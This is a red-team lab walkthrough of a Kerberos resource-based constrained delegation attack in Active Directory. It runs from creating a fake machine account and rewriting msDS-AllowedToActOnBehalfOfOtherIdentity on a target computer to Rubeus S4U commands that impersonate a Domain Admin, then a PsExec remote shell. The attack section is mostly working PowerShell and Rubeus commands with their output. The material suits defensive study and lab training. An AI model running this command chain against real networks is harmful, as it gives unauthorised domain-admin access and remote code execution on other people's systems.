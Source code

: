 # Kerberos Resource-based Constrained Delegation: Computer Object Take Over

It's possible to gain code execution with elevated privileges on a computer if you have WRITE privilege on that computer's AD object.

High level overview of the attack:

* We have code execution on the box `WS02` in the context of offense\sandy user
* User sandy has `WRITE` privilege over a target computer `WS01`
* User sandy creates a new computer object `FAKE01` \(no admin required\)
* Sandy leverages `WRITE` privilege on the `WS01` computer object and updates computer object's attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` to enable the newly created computer `FAKE01` to impersonate and authenticate any domain user that can then access the target system WS01. In human terms this means - the target computer `WS01` is happy for the computer resource `FAKE01` to impersonate any domain user if they want to access anything on `WS01`
* `WS01` trusts `FAKE01` \(due to the modified `msDS-AllowedToActOnBehalfOfOtherIdentity`\)
* We request kerberos tickets for `FAKE01$` with ability to impersonate `offense\spotless` who is a Domain Admin
* Profit

This lab is based on a video presented by [@wald0](https://twitter.com/_wald0?lang=en) - [https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be](https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be)

## Requirements

|  |  |
| :--- | :--- |
| Target computer | WS01 |
| Admins on target computer | spotless@offense.local |
| Fake computer name | FAKE01 |
| Fake computer SID | To be retrieved during attack |
| Fake computer password | 123456 |
| Windows 2012 Domain Controller | DC01 |

Since the attack will entail creating a new computer object on the domain, let's check if users are allowed to do it - by default, a domain member usually can add up to 10 computers to the domain. To check this, we can query the root domain object and look for property `ms-ds-machineaccountquota`

```csharp
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-20-49-58.png)

The attack also requires the DC to be running at least Windows 2012, so let's check if we're in the right environment:

```csharp
Get-DomainController
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-20-56-15.png)

Last thing to check - target computer WS01 object must not have the attribute `msds-allowedtoactonbehalfofotheridentity` set:

```text
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-03-32.png)

This is the attribute the above command is referring to:

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-08-47.png)

## Creating a new Computer Object

Let's now create a new computer object for our computer `FAKE01` \(as referenced earlier in the requirements table\) - this is the computer that will be trusted by our target computer later on:

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-30-46.png)

Checking if the computer got created and noting its SID:

```csharp
Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1154
```

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-25-11.png)

Create a new raw security descriptor for the `FAKE01` computer principal:

```csharp
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-26-41.png)

## Modifying Target Computer's AD Object

Applying the security descriptor bytes to the target `WS01` machine:

```csharp
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-38-54.png)

Reminder - we were able to write this because `offense\Sandy` belongs to security group `offense\Operations`, which has full control over the target computer `WS01$` although the only important one/enough is the `WRITE` privilege:



![](../../.gitbook/assets/screenshot-from-2019-03-26-22-40-43.png)

If our user did not have the required privileges, you could infer that from the verbose error message:

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-43-25.png)

Once the `msDS-AllowedToActOnBehalfOfOtherIdentitity` is set, it is visible here:

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-42-18.png)

Same can be seen this way:

```csharp
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-41-34.png)

We can test if the security descriptor assigned to computer ws01 in `msds-allowedtoactonbehalfofotheridentity` attribute refers to the fake01$ machine:

```csharp
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
```

Note that the SID is referring to S-1-5-21-2552734371-813931464-1050690807-1154 which is the `fake01$` machine's SID - exactly what we want it to be:

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-24-04.png)

## Execution

### Generating RC4 Hash

Let's generate the RC4 hash of the password we set for the `FAKE01` computer:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\Rubeus.exe hash /password:123456 /user:fake01 /domain:offense.local
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-46-25.png)

### Impersonation

Once we have the hash, we can now attempt to execute the attack by requesting a kerberos ticket for fake01$ with ability to impersonate user spotless who is a Domain Admin:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:cifs/ws01.offense.local /ptt
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-23-40-45.png)

Unfortunately, in my labs, I was not able to replicate the attack even though according to the output of rubeus, all the required kerberos tickets were created successfully - I could not gain remote admin on the target system `ws01`:

![](../../.gitbook/assets/screenshot-from-2019-03-26-23-40-57%20%281%29.png)

Once again, checking kerberos tickets on the system showed that I had a ticket for spotless, but the attack still did not work:

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-01-23.png)

### Endless Trial and Error

Talking to a couple of folks who had successfully simulated this attack in their labs, we still could not figure out what the issue was. After repeating the the attack over and over and carrying out various other troubleshooting steps, I finally found what the issue was.

Note how the ticket is for the SPN `cifs/ws01.offense.local` and we get access denied when attempting to access the remote admin shares of `ws01`:

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-16-17.png)

Note, howerver if we request a ticket for SPN `cifs/ws01` - we can now access C$ share of the `ws01` which means we have admin rights on the target system WS01:

```csharp
\\VBOXSVR\Tools\Rubeus\Rubeus.exe s4u /user:fake01$ /domain:offense.local /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:http/ws01 /altservice:cifs,host /ptt
```

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-31-17.png)

To further prove we have admin rights - we can write a simple file from ws02 to ws01 in c:\users\administrator:

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-36-35.png)

Additionally, check if we can remotely execute code with our noisy friend psexec:

```csharp
\\vboxsvr\tools\PsExec.exe \\ws01 cmd
```

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-44-20.png)

{% hint style="warning" %}
Note that the `offense\spotless` rights are effective only on the target system - i.e on the system that delegated another computer resource to act on the target's behalf and impersonate domain users.
{% endhint %}

## References

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/" %}

{% embed url="https://decoder.cloud/2019/03/20/donkeys-guide-to-resource-based-constrained-delegation-from-standard-user-to-da/" %}









